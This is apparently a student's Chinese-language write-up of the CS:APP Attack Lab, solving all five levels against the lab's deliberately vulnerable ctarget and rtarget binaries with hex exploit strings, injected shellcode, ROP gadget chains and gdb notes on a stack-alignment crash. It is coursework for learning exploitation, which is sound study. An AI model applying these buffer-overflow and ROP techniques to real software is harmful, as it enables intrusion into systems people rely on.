

# Attacklab

## 实验过程中出现的问题（已发现原因但未解决）

在我的虚拟机上运行ctarget时在未开始提示输入内容时就会报段错误，用gdb调试时显示内容如下：

```
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Cookie: 0x59b997fa

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7c750d0 in __vfprintf_internal (s=0x7ffff7e1a780 <_IO_2_1_stdout_>, format=0x4032b4 "Type string:", ap=ap@entry=0x5561dbd8, mode_flags=mode_flags@entry=2) at ./stdio-common/vfprintf-internal.c:1244
1244    ./stdio-common/vfprintf-internal.c: No such file or directory.
```

Ubuntu系统安装文件为ubuntu-22.04.3-desktop-amd64.iso。系统版本Linux version 6.2.0-39-generic (buildd@lcy02-amd64-045) (x86_64-linux-gnu-gcc-11 (Ubuntu 11.4.0-1ubuntu1~22.04) 11.4.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #40~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Thu Nov 16 10:53:04 UTC 2

在做这个实验时是在网上找的别人做好的docker，在上面运行。只有ctarget出现这个问题，rtarget没有。

* 用gdb调试可发现出错的行数为
  
  ` 0x00007ffff7c750d0 <+160>:   movaps %xmm1,0x10(%rsp)`此时%rsp地址为0x5561d668
  
  因为在Level2出现了类似问题，所以具体参见level2.

****

# Part 1 :Code Injection Attacks

此部分实验目标This program is set up in a 
way that the stack positions will be consistent from one run to the next and so that data on the 
stack can be treated as executable code. These features make the program vulnerable to 
attacks where the exploit strings contain the byte encodings of executable code.

## Level1

level1的目标是不注入新代码，将程序重定向到现有过程。test函数会调用getbuf()函数，类似于gets()函数，不够安全，会从标准输入中读取字符串以换行符或是EOF结尾，此函数将读取内容读到一个数组中，并且并未进行边界检验，所以可能会造成栈溢出。

第一关的要求在于令getbuf()函数在返回时不返回test而是转到touch1函数。用gdb调试程序，查看getbuf函数的汇编码。

```asmatmel
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq   
```

可以看到在栈上分配了0x28即40字节的空间，则test函数的返回地址存放在最上面，所以输入字符串应该覆盖掉这40个字节的空间，然后用目标地址覆盖掉储存的返回地址。反汇编touch1函数，得到touch1的起始地址为`0x00000000004017c0`。现在应该构建攻击字符串。

实验中提供了一个工具hex2raw，它用来生成攻击字符串，它接受16进制格式的字符串进行输入，每个字节由两个16进制数字表示。传递的每2个16进制数之间应该用空格隔开，对于不同部分可以用换行符分开。所以输入的格式应该类似于“52 48 65 25 14”。因为读取的是字符，所以会在栈上储存的是其字符对应的Ascii码编码。hex3raw作用是生成anscii编码是你输入2个16进制数的字符，用来保证覆盖的代码是正确字节形式。需要输入40个占位字节，所以先输入40个“11”，然后输入touch1的地址，因为机器为小段存储，所以地址从最低位开始输入，即“c0 17 40 00 00 00 00 00”注意64位系统的地址总共64位，应该在地址前面填00补齐位数(在这关可以不用，因为覆盖的位置原本存放的是返回地址，前面本来就是0)。所以应该答案可以为：

```
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11 
c0 17 40 00 00 00 00 00
```

用`./hex2raw < cans.txt | ./ctarget -q`运行，注意要加上参数-q，因为默认是连服务器的，用此参数令程序不要发送信息到服务器。

****

## Level2

level2需要跳转到touch2，但touch2函数需要传递cookie作为验证，所以应该将cookie写入栈中。反汇编touch2.

```asmatmel
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
   0x00000000004017f2 <+6>:     movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:    cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:    jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:    mov    $0x4030e8,%esi
   0x0000000000401809 <+29>:    mov    $0x1,%edi
   0x000000000040180e <+34>:    mov    $0x0,%eax
   0x0000000000401813 <+39>:    callq  0x400df0 <__printf_chk@plt>
```

由汇编代码可以看出touch2地址为`0x00000000004017ec`，cookie通过%edi传递，%rdi是调用者保存寄存器，所以在getbuf调用Gets函数时%rdi可能会发生改变，在实验文档中提示应该注入代码将%rdi设置为cookie，然后跳转到touch2。再看看getbuf函数

```asmatmel
=> 0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
```

主要关注栈指针的行为，函数未执行时栈指针为0x5561dca0，此时指针指向位置存放test函数的返回地址，将栈指针下移40字节，可以得到此时栈指针为`0x5561dc78`，然后读取字符输入储存在栈上，之后控制交回getbuf函数，将栈指针指回初始位置，用ret指令弹出返回地址，同时栈指针加0x8。所以我们应该让这个ret指令转移控制到我们注入的代码，将%rdi设置为cookie，因为实验文档说明不让用jmp指令，所以我们应该继续用ret指令弹出touch2的地址，~~但是不能再向0x5561dca0位置上覆盖数据，会破坏前一个函数的正常执行~~（**此处有误，详情参考另一种解决方法**），所以注入的代码应该可以使栈指针移动，正好我们同时有将touch2地址写在栈上的需求，所以可以用`push`指令先将栈指针自动-0x8再将touch2返回地址压入栈指针指向的位置，所以需要注入的代码为

```asmatmel
 mov   $0x59b997fa,%rdi   //将cookie值给到%rdi
 push  $0x4017ec          //压入touch2的返回地址
 ret   
```

将汇编码写入.s文件，然后编译，用如下命令

```bash
gcc -c a.s  //用gcc编译a.s文件，默认输出a.0
objdump -d a.o > a.d //反汇编到a.d
```

```
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

则注入字符串的顺序应该为注入代码  填充40字节 注入代码的地址(直接注入在栈顶)。所以输入为

```
48 c7 c7 fa 97 b9 59     /* mov    $0x59b997fa,%rdi */
68 ec 17 40 00           /* push   $0x4017ec */
c3                       /* ret */    
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 78 dc 61
55 00 00 00 00
```

### 另一种解决方法

在做题时产生过另外的解决思路，就是不用push指令，用ret指令，将注入代码的地址填在原返回地址上，在这个上面填上touch2的地址，这样在getbuf返回时就会转到注入代码的执行，在注入执行完后再用ret将touch2的返回地址弹到pc，所以答案如下，但是会反馈信息

```
48 c7 c7 fa 97 b9 59    /* mov    $0x59b997fa,%rdi */
c3                      /* ret */
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 78 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00

~$ ./hex2raw < a.txt | ./ctarget

Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
Ouch!: You caused a segmentation fault!
Better luck next time
FAIL: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:FAIL:0xffffffff:ctarget:0:48 C7 C7 FA 97 B9 59 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00 
```

可以看到我们成功转到了touch2，并且是合法的解法，但之后却造成了段错误，所以出现问题的函数是validate，gdb调试后可以看到出错的代码为

`0x00007f3f212eadcd <+61>:    movaps %xmm0,(%rsp)  `

这个代码很眼熟，因为在开头出错的也是类似的代码。通过查看csapp第三版书上关于浮点寄存器的信息，可以得到

```
For transferring data
between two XMM registers, it uses one of two different instructions for copying
the entire contents of one XMM register to another—namely, vmovaps for singl
exprecision and vmovapd for double-precision values. For these cases, whether the
program copies the entire register or just the low-order value affects neither the
program functionality nor the execution speed, and so using these instructions
rather than ones specific to scalar data makes no real difference. The letter ‘a’
in these instruction names stands for “aligned.” When used to read and write
memory, they will cause an exception if the address does not satisfy a 16-byte
alignment. For transferring between two registers, there is no possibility of an
incorrect alignment
```

所以movaps在传送数据到地址时，要求数据16字节对齐(地址要是16的倍数)，否则可能出现错误。另外书中提到了强制对齐的情况



所以可以推测我的这台虚拟机可能要求在栈帧的边界要16字节对齐，栈指针的地址应该能被16整除，即最后一位应该是0(以16进制表示)。现在来看level2的栈指针变动。在getbuf函数开始时 %rsp = 0x5561dca0，则test函数的返回地址在此地址上，然后getbuf函数在栈上分配了40字节的空间，此时栈指针位置为 %rsp = 0x5561dc78，在运行gets函数后将要返回test函数时会释放栈空间，栈指针指回0x5561dca0，然后执行ret弹出返回地址到%pc，并且令栈指针+0x8，%rsp = 0x5561dca8，若是按照一开始的解法，转到注入代码执行push指令会让栈指针-0x8，然后执行ret指令会在令栈指针+0x8，所以栈指针位置仍然未变，同时我们注意到touch2函数在开始时会让栈指针-0x8，此时 %rsp 仍然为0x5561dca0，保持16字节对齐。

所以如果我们仍然不想用push指令的话，应该多执行一次ret指令，令栈指针再次对齐。所以输入应该让栈的结构变为(从上到下)：touch2函数的地址 + 第二个ret的地址 + 注入代码的地址(此处为0x5561dca0指向的位置) + 字节补齐 + mov 指令 + ret +ret 。

我们可以注意到 mov    $0x59b997fa,%rdi和ret 指令的字节码总共是8个字节，起始地址为0x5561dc78，所以下一个ret的地址为0x5561dc80，注意占位字符的总数，所以输入答案为

```
 48 c7 c7 fa 97 b9 59    /* mov    $0x59b997fa,%rdi */
 c3
 c3                      /* ret */
 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00
 78 dc 61 55 00 00 00 00
 80 dc 61 55 00 00 00 00
 ec 17 40 00 00 00 00 00
```

此结果可以通过level2。或者只用1个ret，将touch2下面的地址改为这个ret的地址，即0x5561dc78+0x7=0x5561dc7f。

```
48 c7 c7 fa 97 b9 59    /* mov    $0x59b997fa,%rdi */
c3                      /* ret */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
78 dc 61 55 00 00 00 00
7f dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
```

这个也可以通过。

****

## level3

level3传入字符串做参数。仍然将控制转移到touch3.先看touch3的代码

```c
11 void touch3(char *sval)
12 {
13      vlevel = 3; /* Part of validation protocol */
14     if (hexmatch(cookie, sval)) {
15             printf("Touch3!: You called touch3(\"%s\")\n", sval);
16             validate(3);}
17      else {
18             printf("Misfire: You called touch3(\"%s\")\n", sval);
19             fail(3);
20 }
21     exit(0);
22 }
```

可以看到touch3会调用函数hexmatch判断输入字符是否与cookie是否相等，输入字符数组指针是sval。hexmatch代码如下

```c
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4      char cbuf[110];
5 /* Make position of check string unpredictable */
6      char *s = cbuf + random() % 100;
7      sprintf(s, "%.8x", val);
8      return strncmp(sval, s, 9) == 0;
9 }
```

可以看到hexmatch用100大小的字符数组储存判断字符串，并且用了随机数来保证字符串的首字节指针与数组首元素地址不一定相等，然后将cookie值保存在判断字符串中，比较其与输入字符串是否相等。实验文档中提示char * sval应该是通过%rdi传递的，应该将%rdi设置为注入字符串的地址。cookie输入为字符串形式，所以输入应该为ascii码形式`35 39 62 39 37 66 61 00 `，应该注意字符串以空字符结尾。接下来构造注入代码。先看一下hexmatch的汇编指令。

```asmatmel
   0x000000000040184c <+0>:     push   %r12
   0x000000000040184e <+2>:     push   %rbp
   0x000000000040184f <+3>:     push   %rbx
   0x0000000000401850 <+4>:     add    $0xffffffffffffff80,%rsp
   0x0000000000401854 <+8>:     mov    %edi,%r12d
   0x0000000000401857 <+11>:    mov    %rsi,%rbp
   0x000000000040185a <+14>:    mov    %fs:0x28,%rax
```

重要的是前几行，会将3个寄存器里的值压入栈指针指向的地方，共24字节，然后栈指针加一个很大的数，之后行为对当前栈没什么影响。已知getbuf函数总共为栈分配40字节的空间，cookie字符串总共占据8字节，如果仍然要将cookie储存在getbuf的栈中，可供注入代码使用的字节数总共为8，通过之前的关卡可以知道mov和ret指令的总数为8字节，看上去可以在注入代码地址上面写上touch3的地址，但是这样和前一关解法2中出现问题一样，%rsp储存的地址并不是16字节对齐，可能会出问题，并且已经没有额外的栈空间用来调整栈指针的位置，所以可以换一种思路，将字符串储存在原test函数的栈上，因为正常运行的函数应该不会覆盖其他函数的栈。注入代码将字符串地址存储%rdi中，将touch3的地址push到栈上，然后用ret指令跳转。所以答案如下

```
48 c7 c7 a8 dc 61 55    /* mov    $0x5561dca8,%rdi */
68 fa 18 40 00          /* push   $0x4018fa */
c3                      /* ret */    
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```

****

# Part2 : Return-Oriented Programming

***

### 背景信息

先介绍背景，现代机器为了应对缓冲区溢出有以下方案：使用不会溢出的函数，栈空间随机化（包括栈地址随机化和全部地址随机化），栈空间禁止执行代码，栈破坏检测。

对于rtarget来说，采用了栈随机化和栈禁止执行来进行保护。对于只开启了站随机化的机器来说，可以采用一种叫 nop sled的方法对抗。基本原理是在注入目标代码前添加大量nop指令，这种指令没有实际意义，只令pc值加1，只要返回到任意一条nop指令的位置就可以逐渐执行到目标代码的位置，举例来说一个地址随机范围为2^32，nop sled的长度为2^8，则总共需要列举的地址数量为(2^32)/(2^8)，因为只要有一个地址落到2^8的范围就可以执行注入代码，大大提高了命中几率。

对实验的程序文档中提供了一种攻击方式名叫ROP攻击，并不通过注入代码而是通过现有代码的裁剪和拼接来达成想要的结果。因为指令都是字节码的形式，所以某些代码从中间开始的一部分可能被解释为另外的代码，比如 movl $0xc78948d4,(%rdi)指令的字节形式为c7 07 d4 48 89 c7，其中截取48 89 c7正巧可以解释为movq %rax, %rdi。之所以叫ROP攻击是因为值得利用的代码片段应该以c3即ret指令结尾，这样的字节片段被称为gadget，所以基本的思路为将找到的gadget填充在栈上，并用恰当gadget的返回地址覆盖栈底上保存返回地址的位置，这样每个gadget执行完成后都会跳转到下一个gadget。

实验中值得利用的代码都储存在gadget farm中。

****

## Level4

此阶段要求重现level2的攻击，要求只使用% rax -% rdi，相应指令的字节形式对应在实验文档的附录部分。并且提示只需要两个gadget。

可以反汇编rtarget得到farm的相关指令。

level2需要将cookie传递给touch2，但是不能注入代码所以很难将直接数给到%rdi寄存器，所以可以考虑将cookie存在栈中，利用指令从内存中传递信息给%rdi。先看能传递到%rdi的指令，movq指令能传到%rdi的字节码都有48 89 ??，并且应该跟着c3，通过查询发现`4019a0:    8d 87 48 89 c7 c3        lea    -0x3c3876b8(%rdi),%eax`这里符合要求，指令意义为 `movq %rax, %rdi`，需要的地址为 0x4019a2。然后考虑将cookie传递到%rax的指令，可以发现`4019ca:    b8 29 58 90 c3`符合要求，指令为`popq %rax + nop + ret` ，地址为 0x4019cc。然后决定注入的顺序。示意图如下：

| 栈示意图              |             |
| ----------------- | ----------- |
| ......            |             |
| touch2地址          |             |
| mov指令地址(0x4019a2) |             |
| cookie            |             |
| pop指令地址(0x4019cc) | 原test函数返回地址 |
| ****              | 占位字符        |

所以答案为

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

这样的答案没有引发段错误，说明栈地址应该对齐了，没对齐再填个ret。

---

## Level5

level5重现level3的攻击，传递指向输入字符串的指针到%rdi。基于level3的经验，应该将字符串保存在test函数的栈中，gadget的地址也是。提示需要8个gadget。因为上一关已经找到将%rax给到%rdi的代码，所以先考虑能不能将字符串的地址传递给%rax。在这关中因为栈的地址是随机的，所以很难直接传递字符串的地址，可以尝试用相对%rsp寻址，应该将%rsp的值保存下来.

>   401a03:    8d 87 41 48 89 e0        lea    -0x1f76b7bf(%rdi),%eax
>   401a09:    c3           
> 
> 可以分解出48 89 e0，movq %rsp, %rax

另外可以看到附录里没有提供寻址和计算相关的指令编码，可以到farm里看看有没有能用的指令，

>  4019d6:    48 8d 04 37              lea    (%rdi,%rsi,1),%rax
>  4019da:    c3                       retq   

这是比较明显的相对寻址的指令，我们已经找到将%rsp->%rax->%rdi的指令，所以应该在%rsi里面储存偏移值，再看看有没有能将值传给%rsi的代码，pop没有

> 401a25:    8d 87 89 ce 38 c0        lea    -0x3fc73177(%rdi),%eax
>   401a2b:    c3                       retq   
> 
> 可以分解出89 ce 38 c0 mol %ecx, %esi + nop 

然后同理，找到能传值给%ecx的指令

>  401a33:    b8 89 d1 38 c9           mov    $0xc938d189,%eax
>   401a38:    c3                       retq  
> 
> 89 d1 38 c9即 mol %edx, %ecx

再结合%eax->%edx，和上一关找到的pop %rax。

> 401a40:    8d 87 **<u>89 c2</u>** 84 c0        lea    -0x3f7b3d77(%rdi),%eax
>   401a46:    c3     
> 
> mol %eax, %edx

所有需要的代码(省略ret和nop)如下，以倒序将地址填写在栈上，为了减少偏移量计算，先设置%rsi的值，从将%rsp给到%rax开始计算偏移，共压入3个gadget地址和touch3地址，共计32字节，加在pop指令地址下。

```asmatmel
pop  %rax          0x4019cc
movl %eax, %edx    0x401a42
movl %edx, %ecx    0x401a34
movl %ecx, %esi    0x401a27
movq %rsp, %rax  0x401a06
movq %rax, %rdi    0x4019a2
lea (%rdi,%rsi,1),%rax 0x4019d6
movq %rax, %rdi    0x4019a2
```

答案为

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
20 00 00 00 00 00 00 00
42 1a 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 00
```
